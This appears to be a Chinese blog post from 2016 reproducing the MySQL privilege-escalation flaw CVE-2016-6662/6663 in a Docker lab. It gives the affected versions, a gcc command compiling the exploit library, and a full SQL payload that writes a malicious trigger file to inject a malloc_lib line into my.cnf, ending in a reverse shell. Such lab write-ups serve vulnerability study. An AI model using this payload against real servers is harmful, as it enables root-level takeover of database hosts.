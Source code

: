 ```yaml
---
title: MYSQL提权分析
date: 2016-09-18 08:53:47
tags: 
 - 漏洞分析
categories: notes
---
```


## 概述

几天前出了mysql本地提权的0day，虽然现在官方已经出了补丁，但是受影响的主机还是挺多的。跟进操作一遍：）

<!-- more -->
## 漏洞影响

```
MySQL  <= 5.7.15       远程代码执行/ 提权 (0day)
        5.6.33
        5.5.52

Mysql分支的版本也受影响,包括：
    MariaDB
    PerconaDB
```

## 实验分析

这次实验主要使用docker搭建环境，有需要的同学可以pull我的库玩[0kami/vulenv:cve-2016-6663](https://hub.docker.com/r/0kami/vulevn/tags/)
实验主要从attacker的角度入手，预先拥有的权限：
```
mysql 账户拥有file权限 bob/bob
exp mysql_hookandroot_lib.c
mysql-server-5.6
my.cnf可被mysql组改写写
```

先查看一下版本信息
![](/images/cve-2016-6662/pic1.png)
将`/etc/mysql/my.cnf`权限修改掉
![](/images/cve-2016-6662/pic2.png)
创建bob用户，并赋予file，select，insert权限，创建用于实验的数据库activedb和表active_table
![](/images/cve-2016-6662/pic3.png)
![](/images/cve-2016-6662/pic4.png)
将exp先写入tmp目录，并编译成so文件，需要修改一下ip，port和my.cnf的位置
![](/images/cve-2016-6662/pic5.png)
`gcc -Wall -fPIC -shared -o mysql_hookandroot_lib.c.so mysql_hookandroot_lib.c.c -ldl`
![](/images/cve-2016-6662/pic6.png)
最后一步就是准备一下active_table的触发器了，我们可以现在自己电脑上root用户权限下生成一个tragger
![](/images/cve-2016-6662/pic7.png)
在activedb数据下会生成一个触发器
![](/images/cve-2016-6662/pic8.png)
到此位置我们所有的准备工作都做好了。让我们用bob用户来弹个shell吧
```
select "TYPE=TRIGGERS\ntriggers='CREATE DEFINER=`root`@`localhost` TRIGGER active_table\nAFTER INSERT\n   ON `active_table` FOR EACH ROW\nBEGIN\n   DECLARE void varchar(550);\n   set global general_log_file=\\\'/etc/mysql/my.cnf\\\';\n   set global general_log = on;\n   select \"\n[mysqld]\nmalloc_lib=\\\'/tmp/mysql_hookandroot_lib.so\\\'\n\" INTO void;   \n   set global general_log = off;\nEND'\nsql_modes=1073741824\ndefiners='root@localhost'\nclient_cs_names='latin1'\nconnection_cl_names='latin1_swedish_ci'\ndb_cl_names='latin1_swedish_ci'" into dumpfile '/var/lib/mysql/activedb/active_table.TRG';
```
用bob的用户写入文件产生一个触发器，这个触发器当产生insert时触发
![](/images/cve-2016-6662/pic9.png)
来查看一下，执行后的`/etc/mysql/my.cnf`的内容
![](/images/cve-2016-6662/pic10.png)
重启一下数据库，反弹一个shell
发现可写的my.cnf会被忽略？？？不知道为什么（难道打补丁了？），不知道5.5的情况会怎么样，所以先把my.cnf的权限改回来744
![](/images/cve-2016-6662/pic11.png)
![](/images/cve-2016-6662/pic12.png)
成功反弹一个shell，这边返回的一个shell是mysql权限的 是因为我测试的环境mysqld_safe是以mysql权限运行的，所以弹出来的权限是mysql的，但是如果mysqld_safe是以root权限运行，那么反弹的shell就是root权限的，造成提权。
## 总结
测试环境搭建还有利用过程还是出现了很多问题，可写的my.cnf会被忽略载入（不知道是不是因为修复过的原因），triggers的利用（可以同样利用在拥有file权限的情况下提升权限，这个到时候再深入学习一下）


